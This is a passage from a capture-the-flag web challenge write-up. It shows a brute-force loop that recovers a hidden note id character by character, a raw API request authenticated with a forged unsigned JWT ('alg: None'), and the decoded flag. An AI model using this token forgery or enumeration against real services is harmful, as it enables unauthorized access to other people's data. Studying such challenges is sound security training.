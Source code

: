 ```
       create_note(attempt)                                                                              
       result = get_meta()                                                                               
                                                                                                         
       if not is_attempt_before(result):                                                                 
           # attempt is after                                                                            
           out += prev_char                                                                              
           break                                                                                         
       else:                                                                                             
           prev_char = digit                             
           
print "Final out " + out                                                
```

Output looks as follows:

```
So far E
So far Ee
So far Eel
So far EelH
[...]
```

In the end, we find out that the note id is `EelHIXsuAw4FXCa9epee` and we can retrieve the note:

```
GET /rpc.php?method=getNote&id=EelHIXsuAw4FXCa9epee HTTP/1.1
Host: 159.203.178.9
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MX0.
Accept: application/notes.api.v2+json
Connection: close

HTTP/1.1 200 OK
Date: Thu, 28 Jun 2018 00:23:49 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 80
Connection: close
Content-Type: application/json

{"note":"NzAyLUNURi1GTEFHOiBOUDI2bkRPSTZINUFTZW1BT1c2Zw==","epoch":"1528911533"}
```

The note is base64 encoded and it decodes to: `702-CTF-FLAG: NP26nDOI6H5ASemAOW6g`. We can now paste that into the thing and get the green tick:

![](/home/user/work/shared/flags/HTS-702-2018-CTF/web-challenge/done2.png) 